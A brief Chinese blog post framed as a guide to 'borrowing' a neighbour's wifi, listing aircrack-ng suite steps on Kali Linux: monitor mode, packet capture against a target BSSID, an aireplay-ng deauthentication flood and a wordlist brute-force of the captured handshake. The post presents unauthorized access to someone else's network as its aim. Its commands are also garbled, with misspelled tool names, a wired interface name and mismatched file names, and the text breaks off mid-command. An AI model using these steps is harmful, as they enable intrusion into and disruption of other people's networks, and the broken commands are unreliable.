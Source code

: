 4.---
layout:     post
title:      借用隔壁老王wifi攻略
category:   life
description: 借用隔壁老王wifi攻略
---
这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1. 检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>
2. Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>
3. 查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>
4. 开启无线网卡 
<pre class="prettyprint">
airmon -ng  start wlan0mon
</pre>
5. 查找无线网络：airodump-ng eth0
6. 网络抓包：airodump-ng -w vutfile -c 1 —bssid MacAddress eth0

ARP 发包：aireplay-ng -0 0 -a MacAddress eth0

暴力破解：aircrack-ng outfile1.cap -w /